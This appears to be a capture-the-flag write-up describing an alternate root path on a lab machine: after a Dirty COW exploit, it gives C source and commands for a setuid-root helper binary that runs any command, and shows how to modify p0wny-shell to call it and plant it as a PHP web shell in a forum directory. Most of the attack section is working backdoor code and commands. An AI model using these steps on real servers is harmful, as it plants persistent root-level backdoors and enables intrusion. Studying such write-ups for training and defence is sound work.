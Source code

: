 # Dirty cow + P0wny-Shell backdoor

We will use the same method of the 1st solution (starting after the dirty cow upload part)

At this state, we have a the dirty cow exploit on the machine. We will run it to create the new `root` user with the new password `easywin`.

In the 1st solution, we had a reverse shell to get the root shell. In this method, we will add a php page in the forum to get a root shell in the browser.

Using [**p0wny-shell**](https://github.com/flozz/p0wny-shell). P0wny-shell is a php single-page that emulate a shell and execute some commands on the server.

But in this case, we have some problems. The apache2 server is running as www-data, not root. So, the commands launched by the php code will be executed as www-data.

To bypass this, we will make a binary `exec_cmd` with the suid/sgid root for executing commands

```c
#include <stdio.h>backdoor binary

int main(int ac, char **av) {
    setuid(0);
    setgid(0);
    system(av[1]);
    return 0;
}
```

Build it and add it in the path, on the root shell

```
$ cat > /usr/bin/exec_cmd.c << EOF
#include <stdio.h>

int main(int ac, char **av) {
    setuid(0);
    setgid(0);
    system(av[1]);
    return 0;
}
EOF
```

```
$ gcc /usr/bin/exec_cmd.c -o /usr/bin/exec_cmd

$ chown root:root /usr/bin/exec_cmd && chmod 7777 /usr/bin/exec_cmd
```

Now, we need to modify the original `p0wny-shell` file, to execute commands with our binary. Let's see where the commands are executed.

```php
function featureShell($cmd, $cwd) {
    $stdout = array();

    if (preg_match("/^\s*cd\s*$/", $cmd)) {
        // pass
    } elseif (preg_match("/^\s*cd\s+(.+)\s*(2>&1)?$/", $cmd)) {
        chdir($cwd);
        preg_match("/^\s*cd\s+([^\s]+)\s*(2>&1)?$/", $cmd, $match);
        chdir($match[1]);
    } elseif (preg_match("/^\s*download\s+[^\s]+\s*(2>&1)?$/", $cmd)) {
        chdir($cwd);
        preg_match("/^\s*download\s+([^\s]+)\s*(2>&1)?$/", $cmd, $match);
        return featureDownload($match[1]);
    } else {
        chdir($cwd);
        exec($cmd, $stdout);
    }

    return array(
        "stdout" => $stdout,
        "cwd" => getcwd()
    );
}

function featureHint($fileName, $cwd, $type) {
    chdir($cwd);
    if ($type == 'cmd') {
        $cmd = "compgen -c $fileName";
    } else {
        $cmd = "compgen -f $fileName";
    }
    $cmd = "/bin/bash -c \"$cmd\"";
    $files = explode("\n", shell_exec($cmd));
    return array(
        'files' => $files,
    );
}
```

We can see 2 interesting lines

```php
exec($cmd, $stdout);
...
$cmd = "/bin/bash -c \"$cmd\"";
$files = explode("\n", shell_exec($cmd));
```

We will change it like this:

```php
exec("exec_cmd '" . $cmd . "'", $stdout);
...
$cmd = "/bin/bash -c \"$cmd\"";
$files = explode("\n", shell_exec("exec_cmd '" . $cmd . "'"));
```

Now upload the file with the same `cat` method

```
$ cat > /var/www/forum/templates_c/shell.php << EOF
<paste>
EOF
```

We have our php backdoor with a nice terminal emulation on the page `/var/www/forum/templates_c/shell.php`

![screen](../img/screen_p0wny.png)

All of this is automated with the script `dirtycow_p0wny.py`

:checkered_flag:
